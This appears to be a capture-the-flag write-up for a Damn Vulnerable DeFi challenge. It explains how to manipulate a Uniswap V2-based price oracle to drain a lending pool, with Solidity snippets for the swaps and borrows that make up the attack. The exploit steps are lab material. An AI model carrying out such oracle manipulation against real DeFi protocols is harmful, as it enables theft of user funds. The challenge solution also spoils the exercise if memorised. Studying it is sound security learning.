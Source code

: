 ```javascript
function _getOracleQuote(uint256 amount) private view returns (uint256) {
        (uint256 reservesWETH, uint256 reservesToken) =
            UniswapV2Library.getReserves({factory: _uniswapFactory, tokenA: address(_weth), tokenB: address(_token)});

        return UniswapV2Library.quote({amountA: amount * 10 ** 18, reserveA: reservesToken, reserveB: reservesWETH});
    }
```

This discovery means the attack vector is the same as in the previous challenge but with one caveat which we will later see. First we going to do the same swap as in the previous challenge and swap all our DVT tokens for ETH.


```javascript
 address[] memory path = new address[](2);
        path[0] = address(token);
        path[1] = address(weth);
        uniswapV2Router.swapExactTokensForTokens(
            PLAYER_INITIAL_TOKEN_BALANCE,
            0,
            path,
            player,
            block.timestamp + 15 minutes
        );
```

Before the swap the lending pool required 300,000 ETH to borrow all DVT tokens. After the swap the pool requires only 29 ETH which is still more than the 20 ETH the player has. So this time around we have to use the lending pool to borrow some DVT tokens with the ETH that we already swapped to acquire even more DVT tokens to manipulate the price further.

```javascript
// I did some trial and error to find the correct amount to borrow, maybe there is a better way to do this
// A function where all the input would be weth and the output the maximum amount of DVT tokens would be beneficial
lendingPool.borrow(300_000e18);

uniswapV2Router.swapExactTokensForTokens(
            token.balanceOf(player),
            0,
            path,
            player,
            block.timestamp + 15 minutes
        );
```

After the second swap to manipulate the price further and the fact that we have already borrowed nearly 1/3 of the total DVT tokens of the lending pool. The ETH needed to borrow the remaining DVT tokens has decreased to only 0.03 ETH. Finally we borrow the remaining DVT tokens and swap the remaining ETH we have to DVT tokens.
